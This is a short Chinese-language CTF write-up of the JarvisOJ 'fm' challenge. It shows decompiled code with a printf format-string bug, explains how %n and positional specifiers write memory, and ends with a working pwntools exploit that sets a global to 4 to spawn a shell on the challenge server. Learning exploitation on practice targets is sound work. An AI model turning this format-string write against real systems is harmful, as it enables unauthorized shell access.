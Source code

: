 # jarvisoj--pwn--fm

由于昨天的格式化字符串题目对我来说不太懂，今天做题简单的

ida

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+2Ch] [ebp-5Ch]
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(&buf, 0, 0x50u);
  read(0, &buf, 0x50u);
  printf(&buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```

明显格式字符串漏洞，只需把x变为4，就可以getshell

```c++
.data:0804A02C                 public x
.data:0804A02C x               dd 3                    ; DATA XREF: main+65↑r
.data:0804A02C                                         ; main+7C↑r
.data:0804A02C _data           ends
```

x所在地址

## 原理学习

当格式化字符串中出现%n时，会把%n前已经打印出过字符的个数作为一个值写到对应参数（或地址）上

例子 printf("2333%n",&a);               a=4

格式化符的特殊用法：偏移量标志符$

 用法是：例如%5$n，意味在拓展这个%n对应的内容时，参数偏移量为5，即从栈中的格式化串指针处，往高地址偏移5个参数，再做参数向串中的拓展。
 
 字符串偏移 利用gdb 看 stack

exp：

```python
from pwn import *

r = remote("pwn2.jarvisoj.com",9895)
payload = p32(0x804a02c)+'%11$n'
r.sendline(payload)
r.interactive()
```


